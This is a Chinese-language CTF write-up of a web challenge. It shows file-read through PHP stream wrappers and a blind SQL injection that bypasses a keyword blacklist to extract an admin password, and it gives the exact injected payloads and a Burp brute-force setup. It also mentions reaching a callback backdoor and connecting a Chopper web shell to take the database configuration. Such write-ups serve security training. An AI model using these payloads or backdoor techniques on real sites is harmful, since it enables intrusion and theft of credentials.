


非xss题 但是欢迎留言~
地址：get the flag
读取源码
在页面底部发现一个这样的链接：http://cms.nuptzj.cn/about.php?file=sm.txt ，说明题目提供了读取文件功能，如果使用 file://协议 读取，HTML预留字符会以字符实体显示，看起来不方便，所以也可以编码读取后再本地解码。
|
|
关于file://协议
file://协议 (RFC8089 )是用来访问本地文件系统的，因为文件系统 是 PHP 使用的默认封装协议，因此在fopen()、 copy()、 file_exists() 、 file_get_contents()和 filesize() 等文件系统函数中是支持的。
在谷歌/火狐浏览器的URL框里输入 file:///D:/ 或者在Linux命令行里敲 lynx file:/// 都可以看到效果。
PHP文档 提供的用法如下：
- /path/to/file.ext
- relative/path/to/file.ext
- fileInCwd.ext
- C:/path/to/winfile.ext
- C:\path\to\winfile.ext
- \smbserver\share\path\to\winfile.ext
- file:///path/to/file.ext
关于PHP的过滤器(php://filter)
php://filter 和 可用的过滤器列表。主要用在数据流内容读取之前做些筛选过滤，可指定过滤器应用在读模式还是写模式，不指定则两者都应用，也可复合使用多个过滤器，使用管道符隔开即可。
对于CTFer典型的用法像是这样：
php://filter/read= < filter list to apply to read chain >/resource= < stream to be filtered >
php://filter/read=string.toupper|string.rot13/resource=https://findneo.github.io/
php://filter/convert.base64-encode/resource=filename
常用过滤器列表：
- String Filters
- string.rot13
- string.toupper
- string.tolower
- string.strip_tags
- Conversion Filters
- convert.base64-encode & convert.base64-decode
- convert.quoted-printable-encode & convert.quoted-printable-decode
- Compression Filters
- Encryption Filters
注入
全局搜索 mysql_query ，发现 say.php,so.php,index.php 都存在数据库操作。选择 so.php 下手。
|
|
关注 3、11、14、15行。
burp抓包，修改 User-Agent 字段即可。
antiinject() 过滤规则是按黑名单依次把关键字删除。
- 用黑名单里最后一个关键字
=分隔即可绕过对多字符关键字的过滤。 - 用
/**/代替空格符。 - 单字符关键字不太会弄，也许可以用各种编码绕过，不过我们暂时未必需要，有空格和这些多字符关键字，再加上不在黑名单里的
<>/()已经可以开始搞事了。
- 用黑名单里最后一个关键字
mysql_real_escape_string() 的功能是对
\x00, \n, \r, \, ', " , \x1a(撤销键,ctrl+z)加反斜杠转义，我们不用这些字符就是了。15行处将处理过的参数直接拼接到查询语句，因为查询结果有多列，又没有逗号可用，不好用内联注入，于是尝试基于逻辑的注入。数据库结构在 sm.txt 已经给出。
- 12345678910111213141516171819我们想要在数据库执行的查询语句是这样：SELECT * FROM `message` WHERE display=1 AND id=1 and ascii(mid((select userpass from admin)from 1 for 1))>65因为没法用空格，所以实际上是这样：SELECT * FROM `message` WHERE display=1 AND id= 1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65希望经过过滤的 id 值为：1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65向 so.php post过去的参数应该是：soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/1/**/fo=r/**/1))>65使用burp爆破soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/§1§/**/fo=r/**/1))>§65§使用 Cluster Bomb 模式，第一个payload 为 [1-40] ，第二个为 [31,32,47-57](经过几次尝试发现usepass字段只有[ \d] )得到[49,48,50,32,49,49,55,32,57,57,32,49,48,55,32,49,49,52,32,48,49,55,32,49,49,48,32,49,49,54,32,49,49,55]也就是[102 ,117 ,99 ,107 ,114 ,117 ,110 ,116 ,117]即funckruntu，访问loginxlcteam登陆即可进后台得知有管理员留的后门 xlcteam.php ，于是读一下这个文件
意外
看别人的writeup时惊喜的发现原来并没有过滤逗号，这意味着可以一次注出来管理员密码！所以深夜里我是有些激动的。
|
|
使用回调后门
回调后门似乎是 phithon 师傅最先这样称呼的，在 创造tips的秘籍——PHP回调后门 里做了具体介绍。
|
|
菜刀连上后拿到所有文件，发现 config.php 里有数据库配置，于是就可以操作整个数据库了。
是的，中午吃的是美味的黄焖鸡 \o/

